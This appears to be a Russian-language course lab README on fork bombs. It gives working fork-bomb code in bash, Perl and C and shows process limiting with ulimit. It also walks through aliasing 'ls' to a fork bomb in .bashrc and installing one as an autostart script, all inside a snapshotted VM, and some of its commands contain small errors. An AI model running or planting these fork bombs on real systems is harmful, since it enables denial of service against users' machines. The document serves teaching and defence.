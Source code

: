 # Fork Bomb #

**ПЕРЕД ВЫПОЛНЕНИЕМ ПРАКТИЧЕСКОЙ ЧАСТИ ОБЯЗАТЕЛЬНО СДЕЛАЙТЕ SNAPSHOT ВАШЕЙ ВИРТУАЛЬНОЙ МАШИНЫ**

fork-бомба — вредоносная или ошибочно написанная программа, бесконечно создающая свои копии (системным вызовом fork()), которые обычно также начинают создавать свои копии и т. д.

Выполнение такой программы может вызывать большую нагрузку вычислительной системы или даже зависание системы вследствие нехватки системных ресурсов (дескрипторов процессов, памяти, процессорного времени), что и является целью.

fork-бомбу очень трудно ликвидировать, т.к. один процесс не зависит от другого и эффективнее всего помогает только лишь перезагрузка компьютера. Но иногда бомба попадает и в автозагрузку (если это указано в коде) и тогда для ее ликвидации необходимо загружаться в режиме защиты от сбоев (например, безопасном режиме в Windows). Но некоторые fork-бомбы можно уничтожить и без перезагрузки.

### Примеры создания  Fork Bomb ###

Итак, код выглядит так:

	:(){ :|:& };:

Где:
   *	:() — Определение функции.
   *	{  — Открытие функции.
   *    : — загрузка копии функции «:» в память
   *    |: — перенаправление вывода в следующую копию функции
   *	& — Помещает вызов функции в фоновом режиме, чтобы fork (дочерний процесс) не мог «умереть» вообще, тем самым это начнет есть системные ресурсы.
   *	} — Закрытие функции.
   *	; — Завершите определение функции. Т.е является разделителем команд, (командный сепаратор).
   *	: — Запускает функцию которая порождает fork bomb().
	 
Это рабочий код, но не очень читабельный. Вот пример нормального, читаемого кода:
	 
	 #!/bin/bash
	 bomb() {
	 bomb | bomb &
	 };
	 bomb

Существуют Fork-бомбы и на языках программирования, приведу некоторые из них :

### Пример создания  Fork Bomb с использованием perl ###

	# perl -e "fork while fork" &

### Пример создания  Fork Bomb с использованием C/C++ ###

	#include <unistd.h>
	int main(void)
	{
		while(1)
		fork();
	}

И все-таки fork-бомбы на каких они языках программирования не написаны действуют по одному принципу.

**Не забыли сделать SnapShot?**

## Ограничение процессов, создаваемых пользователем ##

Избегайте использования fork в любом, выражении, которое может оказаться в бесконечном цикле. 
Для уничтожения такой бомбы применяется ограничение колличества одновременно работающих процессов и тогда один из процессов fork-бомбы будет завершаться и на месте его будет создаваться другой процесс при достижении максимального колличества.
Утилита ```ulimit``` используется для временного установления пределов текущей оболочки и ее сыновей (таким образом в двух разных терминалах можно).
Можно ограничить процесс разветвления, как показано ниже:

	ulimit -u count_of_process

Установим предел процессов **N** * 2, где **N** - номер по журналу. 
Проверим результат:

	ulimit -a

Необходимо отметить, что ограничение количества процессов само по себе не предотвращает запуск fork-бомбы, а лишь направлено на минимизацию возможного вреда в случае её срабатывания.

Запустим fork-бобму:
	
	:(){ :|:& };:

Обратите внимание на всплывающие ошибки.
Закроем терминал и откроем новый.

Проверим ограничения нового терминала:

	ulimit -a
	


Запустим fork-бобму:

	:(){ :|:& };:

Перезапускаем гостевую ОС с помощью панели инструментов.

## alias и .bashrc ##
alias - своего рода сокращатель.
Утилита создана для того, чтобы делать сложные вещи простыми (или простые — ещё проще). Вместо того, чтобы использовать длинную и/или сложную команду можно создать простой псевдоним для неё и затем использовать его в своё удовольствие. Общий формат определения псевдонима при помощи alias таков:

	alias псевдоним="команда"
	
Файл .bashrc – это сценарий, который запускается всякий раз, когда начинается новый сеанс терминала в интерактивном режиме.
Сам файл .bashrc содержит ряд конфигураций для сеанса терминала. Сюда входит настройка или включение: раскраска, завершение, история оболочки, псевдонимы команд и многое другое. Файл .bashrc распространяемый вместе с Ubuntu, хорошо комментируется, и вы сможете понять, что он делает, просто прочитав его. 

В рамках ПЗ мы ограничимся малым, подменим всем хорошо знакомую утилиту ```ls``` на fork-бомбу.
Создадим папку *fork* и скопируем в нее *.bashrc*:

	mkdir fork
	cd fork
	cp ~/.bashrc .bashrc
	
В сценарии подмените ```ls``` на fork-бомбу

В опробуем нашу бомбу в docker-контейнере:

Dockerfile:

	FROM ubuntu
	COPY .bashrc /root/.bashrc
	CMD ["pwd"]
	
Создадим docker-образ:
	
	sudo docker build -t fork .
	
Запустим контейнер в интерактивном режиме:
	
	sudo docker run -ti -fork /bin/bash

Проверим нашу бомбу.

Ограничим число доступных ресурсов ЦП нашего контейнера флагом ```--cpus=".5"```, запустим наш контейнер снова.

## Добавим fork-бомбу в автозагрузку ##

1) В каталоге ```/etc/init.d/``` cоздадим скрипт forkbomb.sh:
	
	`#!/bin/bash 
	`:(){ :|: & };:
	`exit
	
2) Сделаем его выполняемым (уточнить, что такое *ugo*):

	`chmod ugo+x forkbomb.sh

3) Добавляем бомбу в автозагрузку:

	`sudo update-rc.d _start.sh defaults

4) Перезагружаем виртуальную машину.
Как мы могли заметить, с системой ничего нельзя сделать, кроме как выключить ее.
После выключения возвращаем нашу виртуальную машину к заранее сделанному снимку.
Отметим под конец, что даже с современными операционными системами не существует идеального способа предотвращения вилочной бомбы. Однако применение общих рекомендаций по обеспечению безопасности и предотвращение запуска ненадежного программного обеспечения в корне может заблокировать подавляющее большинство сценариев атак с использованием «вилочных бомб».
